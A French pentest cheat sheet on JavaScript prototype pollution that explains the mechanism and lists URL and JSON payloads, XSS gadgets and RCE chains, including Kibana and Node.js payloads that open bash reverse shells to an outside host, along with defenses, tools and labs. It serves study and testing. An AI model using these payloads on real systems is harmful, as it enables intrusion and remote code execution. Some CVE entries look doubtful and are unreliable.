

# 🧬 Prototype Pollution

> [!info] **En 1 phrase**
> PP = polluer `Object.prototype` en JavaScript pour que **tous les objets** de l'app (client ou serveur)
> héritent d'une propriété malveillante → XSS, bypass de validation, RCE, DoS.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Prototype%20Pollution/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Presque tous les objets JS **héritent** de `Object.prototype`. En y écrivant une propriété
> (ex : `isAdmin`), tout objet qui lira `obj.isAdmin` sans l'avoir défini lui-même
> trouvera **notre valeur**. Les merges récursifs non sécurisés copient aveuglément
> les clés `__proto__` / `constructor.prototype` → ils deviennent des **sinks**.

---

## 🧠 Le mécanisme JavaScript

```js
var myDog = new Dog();

// La propriété "constructor" pointe vers la fonction constructeur
myDog.constructor;              // → function Dog()

// __proto__ et constructor.prototype pointent vers le même prototype
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];            // accès via notation crochet (bypass filtres)

// Polluer = écrire dans le prototype d'Object
Object.prototype.evilProperty = "evilPayload";
({}).evilProperty;             // → "evilPayload"  (tout objet l'hérite !)
```

### Exemple classique (escalade de privilèges)

```js
let config = { isAdmin: false };

// Pollution
Object.prototype.isAdmin = true;

// config n'a pas défini isAdmin → il hérite du prototype
config.isAdmin;                // → true  → bypass admin !
```

---

## 🖥️ Client-Side Prototype Pollution (CSPP)

La pollution se fait **dans le navigateur de la victime**. Vecteurs :

- Une app qui parse le **hash / query string** de l'URL avec un parser vulnérable (ex : `jQuery.param`, `query-string`, libs de routing).
- Un **JSON reçu du serveur** (API) traité par une lib de merge vulnérable.
- Résultat : gadgets du DOM → **XSS** quand la propriété polluée est consommée (ex : `innerHTML`, `sanitizeHTML`).

### Payloads dans l'URL

```txt
https://victim.com/#a=b&__proto__[admin]=1
https://victim.com/#__proto__[xxx]=alert(1)
https://example.com/?__proto__[evilProperty]=evilPayload

# Via constructor.prototype (quand __proto__ est filtré)
https://victim.com/?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)

# Exemple réel : gadget jQuery (handleObj → delegateTarget → onerror)
https://victim.com/?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
```

### Payloads dans le JSON

```json
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

> [!warning] ⚠️ **`JSON.parse` est SÛR** : il crée la clé `__proto__` comme une **propriété simple** (pas le prototype).
> C'est l'étape suivante (merge/assign récursif) qui va la consommer et polluer `Object.prototype`.

---

## 🖥️ Server-Side Prototype Pollution (SSPP)

La pollution se fait **sur le serveur Node.js**. Vecteurs principaux :

- **Body JSON** traité par un merge récursif (`lodash.merge`, `merge`, `jquery-extend`, `deep-extend`, `minimist`…).
- **Query string** parsée par `qs`, `minimist`, `yargs-parser` (payloads `?__proto__[x]=y`).
- Résultat : pollution des **objets internes** du serveur → RCE, DoS, bypass.

```json
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

### Payloads Express / Express-session (tests connus)

```json
{ "__proto__": { "parameterLimit": 1 } }
{ "__proto__": { "ignoreQueryPrefix": true } }
{ "__proto__": { "allowDots": true } }
{ "__proto__": { "json spaces": " " } }
{ "__proto__": { "exposedHeaders": ["foo"] } }
{ "__proto__": { "status": 510 } }
```

| Payload | Effet observable |
|---|---|
| `{"__proto__":{"json spaces":" "}}` | la réponse JSON devient indentée (`{"foo": "bar"}` au lieu de `{"foo":"bar"}`) |
| `{"__proto__":{"exposedHeaders":["foo"]}}` | le serveur renvoie `Access-Control-Expose-Headers` |
| `{"__proto__":{"status":510}}` | le code de statut de réponse change (erreurs → 510) |
| `{"__proto__":{"parameterLimit":1}}` | erreur 413 si > 1 paramètre GET |

---

## 🎚️ RCE via Prototype Pollution

PP seul ne suffit pas : il faut un **gadget** qui consomme la propriété polluée pour déclencher une action dangereuse. Les chaînes suivantes sont documentées.

### RCE Kibana (CVE-2019-7609)

```js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

### RCE via gadgets EJS (template engine)

EJS lit `options.client` / `options.escapeFunction` depuis les objets → pollution → exécution.

```json
{
    "__proto__": {
        "client": 1,
        "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
    }
}
```

### RCE asynchrone Node.js (NODE_OPTIONS + inspect)

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=payload\".oastify\".com"
  }
}
```

### P0/silent-spring : lib `p0` de Palo Alto (gadget reverse shell)

```json
{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ",
  "env": {"EVIL": "console.log(require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/ATTACKER/PORT 0>&1\"').toString())"}}}
```

---

## 🧰 Gadgets connus & CVE

> Un **gadget** = chemin de code qui consomme une propriété polluée pour en tirer un impact
> (XSS, RCE, DoS). On crée les siens avec `pp-finder` ou on réutilise des gadgets connus.

### Libs de merge vulnérables (CVEs)

| CVE | Lib | Détail |
|---|---|---|
| **CVE-2018-3721** | lodash < 4.17.5 | `lodash.merge` / `defaultsDeep` : pollution via `__proto__` |
| **CVE-2019-10744** | lodash < 4.17.12 | `defaultsDeep` → pollution (prototype chain) |
| **CVE-2020-8203** | lodash < 4.17.20 | `zipObjectDeep` → pollution |
| CVE-2019-10744 (hump) | underscore | variante dans les versions anciennes |
| CVE-2020-28269 | `merge` | merge récursif de la lib standalone |
| CVE-2019-1011985 | jQuery | `jQuery.extend(true, ...)` deep merge |
| CVE-2021-28918 | `tree-kill` | payload `__proto__.pid` → DoS/RCE |

> [!tip] 💡 **Vérifier la version** d'une lib = déterminer si la CVE est applicable.
> `package-lock.json` / `yarn.lock` exposent toutes les versions résolues → vérifier avec `npm audit`.

### Gadgets par catégorie

```txt
RCE    → child_process (NODE_OPTIONS, spawn, exec)  → CVE-2019-7609, p0, EJS
RCE    → template engines : EJS (client/escapeFunction), Pug, Handlebars
XSS    → DOM : innerHTML, outerHTML, srcdoc (iframe), sanitizers HTML
Bypass → validateurs de schéma, sanitizers (DOMPurify 1.0.7 CVE), parsers de config
DoS    → propriétés qui créent des boucles infinies (pollution de `Object.prototype.length`)
Auth   → propriétés de config (isAdmin, role, oidcProvider)
```

---

## 🕵️ Détection manuelle

### Dans la console navigateur (client)

```js
// 1. Test de pollution
Object.prototype.polluted = "CSPP";

// 2. Vérification
({}).polluted;                 // → "CSPP" ? POLLUÉ !
delete Object.prototype.polluted;   // cleanup

// 3. Si une lib parse le hash/query, recharger avec le payload puis relire :
location.hash = "#__proto__[polluted]=CSPP"
({}).polluted                  // → "CSPP" si le parser est vulnérable
```

### Test côté serveur

> [!warning] ⚠️ **Toujours tester sur une propriété "inoffensive" d'abord**
> (`status`, `json spaces`, `polluted`) pour confirmer la pollution **sans crash ni effet de bord**.

```json
{ "__proto__": { "status": 510 } }
```

```json
{ "__proto__": { "json spaces": " " } }
```

```json
{ "constructor": { "prototype": { "status": 510 } } }
```

> [!tip] 💡 **Séquence de confirmation** :
> 1. Envoyer le payload de test → observer l'effet (indentation JSON, statut, header CORS).
> 2. Le payload passe-t-il tel quel dans la requête ? (pas d'écrasement de `__proto__` par le parseur).
> 3. Identifier la lib de merge → chercher un gadget dans la base `yuske/...` ou `BlackFan/...`.
> 4. Valider l'impact réel (gadget), jamais juste la pollution.

### Payloads de test rapides

```txt
x[__proto__][evilProperty]=evilPayload
x.__proto__.evilProperty=evilPayload
__proto__[evilProperty]=evilPayload
__proto__.evilProperty=evilPayload
?a[constructor][prototype][evilProperty]=evilPayload
```

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
```

---

## 💥 Impacts

| Impact | Mécanisme | Exemple |
|---|---|---|
| **XSS** (CSPP) | pollution d'une propriété consommée par `innerHTML` / un sanitizer | `__proto__[onerror]=alert(1)` sur un gadget jQuery |
| **Bypass validation** | le validateur lit une propriété héritée | `isAdmin`, `role`, `approved` forcés à `true` |
| **RCE** (SSPP) | gadget `child_process` / template engine / `NODE_OPTIONS` | CVE-2019-7609 (Kibana) |
| **DoS** | propriété déclenchant une boucle infinie ou un crash | `Object.prototype.length`, `status` invalide |
| **Auth bypass** | config d'authentification polluée | `{"__proto__":{"isAdmin":true}}` |
| **Bypass sanitizers** | DOMPurify etc. lisent des options depuis le prototype | CVE-2020-10254 (DOMPurify < 2.0.0) |

---

## 🔍 Détection & Défense

| Couche | Action |
|---|---|
| **Filtrage d'entrée** | Bloquer/nettoyer les clés `__proto__`, `constructor.prototype`, `prototype` dans les JSON & query strings |
| **Merges sûrs** | Bannir les merges récursifs non sécurisés (`lodash.merge` < 4.17.20, `deep-extend`, `jquery-extend`) |
| **Objects sans prototype** | Parser avec `JSON.parse(text, reviver)` puis `Object.create(null)` ou utilser un parseur qui ignore `__proto__` |
| **Freeze / Seal** | `Object.freeze(Object.prototype)` en durcissement (Node `--frozen-intrinsics`) |
| **Schéma validation** | Valider les clés autorisées (allowlist) AVANT tout merge |
| **Mise à jour des libs** | `npm audit` : lodash, underscore, jQuery, merge, minimist, yargs-parser, qs |
| **Scan** | pp-finder (gadgets), extension Burp *Server-Side Prototype Pollution* de PortSwigger, PPScan (côté client) |
| **Surveillance** | Logs d'erreurs, crashs serveur, modifications inattendues de config |

---

## 🛠️ Outils

```bash
# pp-finder : trouver des gadgets PP dans un paquet / un code
# (yeswehack/pp-finder)
pip install pp-finder
pp-finder -i package.json        # analyse les dépendances d'un projet

# silent-spring : PP → RCE dans Node.js (yuske/silent-spring)
# Démo & analyse des gadgets child_process

# PPScan : scanner de PP client-side (msrkp/PPScan) — headless browser

# Extension Burp : "Server-Side Prototype Pollution" (portswigger)
# → détection blackbox + génération de payloads de confirmation
```

- [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) — trouver des gadgets
- [yuske/silent-spring](https://github.com/yuske/silent-spring) — PP → RCE Node.js
- [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) — gadgets SSPP
- [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) — gadgets CSPP
- [msrkp/PPScan](https://github.com/msrkp/PPScan) — scanner client-side

---

## 🧪 Labs

- YesWeHack Dojo — Prototype Pollution : https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution
- PortSwigger — labs Prototype Pollution : https://portswigger.net/web-security/all-labs#prototype-pollution
- PortSwigger — cours : https://portswigger.net/web-security/prototype-pollution

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'exploitation**
> 1. **Distinguer CSPP / SSPP** : où se trouve le parseur vulnérable (navigateur vs serveur) ?
> 2. Tester avec une **propriété inoffensive** (`status`, `json spaces`, `polluted`) — jamais un gadget directement.
> 3. Identifier la **lib de merge** et sa **version** → chercher la CVE / le gadget associé.
> 4. Trouver un **gadget** (pp-finder ou bases existantes) → exploiter (XSS, RCE, bypass).
> 5. Confirmer l'impact réel, pas juste la pollution théorique.

> [!warning] ⚠️ **Pièges fréquents**
> - `JSON.parse` **n'est pas** une source de PP : le sink est le merge/assign récursif **après** le parse.
> - `__proto__` filtré ? Essayer `constructor.prototype`, `constructor["prototype"]`, notation crochet `obj["__proto__"]`.
> - **Version des libs = tout** : une CVE connue ne s'applique qu'à certaines versions (`npm audit`).
> - Client vs serveur : un payload URL peut être parsé **des deux côtés** (hash côté navigateur, query côté Node). Vérifier l'effet observable dans **chaque** contexte.
> - Payload `status`/`json spaces` peut **casser** la réponse du serveur → attention au DoS involontaire en test.
> - Les objets `Map`, `Set`, tableau n'héritent pas toujours de `Object.prototype` → certains gadgets ne marchent pas partout.
> - `Object.prototype` pollué = **global** : un seul point de PP suffit pour tout un écosystème de gadgets.

> [!tip] 💡 **Dans la console devtools**
> ```js
> Object.prototype.testPp = 1
> console.log({}.testPp)        // → 1 ? le monde entier est pollué
> delete Object.prototype.testPp
> ```
> Recharger la page après chaque test de pollution pour repartir d'un état propre.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[Injection de commandes|🐚 Injection de commandes]]
- [[NoSQL|🍃 NoSQL]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Prototype Pollution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Prototype%20Pollution/README.md)
- 📄 Réf : [A Pentester's Guide to Prototype Pollution Attacks (Cobalt)](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- 📄 Réf : [Exploiting PP — RCE in Kibana CVE-2019-7609 (Securitum)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
